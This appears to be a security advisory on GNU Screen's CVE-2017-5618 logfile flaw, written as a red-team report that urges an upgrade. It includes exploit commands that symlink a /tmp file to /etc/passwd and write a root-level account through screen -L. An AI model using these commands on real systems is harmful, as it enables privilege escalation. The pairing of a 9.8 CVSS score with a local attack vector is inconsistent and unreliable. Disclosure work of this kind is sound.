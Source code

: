 **URGENT**: Upgrade to GNU Screen 4.5.1 or later immediately. Current installation poses **CRITICAL SECURITY RISK** to entire system infrastructure.

---

## Technical Analysis

### Primary Vulnerability: CVE-2017-5618 - Logfile Permissions

**Severity**: CRITICAL  
**CVSS Score**: 9.8 (Critical)  
**Attack Vector**: Local  
**Exploit Status**: FULLY WORKING ✅

#### Technical Details

**Root Cause**: Insufficient validation of logfile paths and permissions in the `-L` flag implementation within screen.c (lines 676-798).

**Vulnerable Code Pattern**:
```c
// Vulnerable version allowed direct file access without proper validation
if (--ac != 0) {
  screenlogfile = SaveStr(*++av);
  // Minimal validation - SECURITY ISSUE
}
```

**Attack Mechanism**:
- The `-L` flag accepts arbitrary file paths without proper validation
- Files are created with elevated privileges (root:utmp ownership)
- Symlink attacks allow targeting of any system file
- Path traversal enables access to restricted directories

#### Exploitation Results

Our Red Team successfully demonstrated:
- ✅ **Arbitrary File Creation**: Files created with root ownership while running as regular user
- ✅ **Symlink Attacks**: Successful targeting of system files via symbolic links
- ✅ **Path Traversal**: Access to restricted file system locations
- ✅ **Privilege Escalation**: Complete user-to-root privilege escalation

**Working Exploit Commands**:
```bash
# Basic exploitation
screen -L /tmp/malicious_file -d -m echo "malicious_content"
# Result: File created with root:utmp ownership

# Symlink attack targeting /etc/passwd
ln -s /etc/passwd /tmp/malicious_symlink
screen -L /tmp/malicious_symlink -d -m echo "malicious:x:0:0:root:/root:/bin/bash"
```
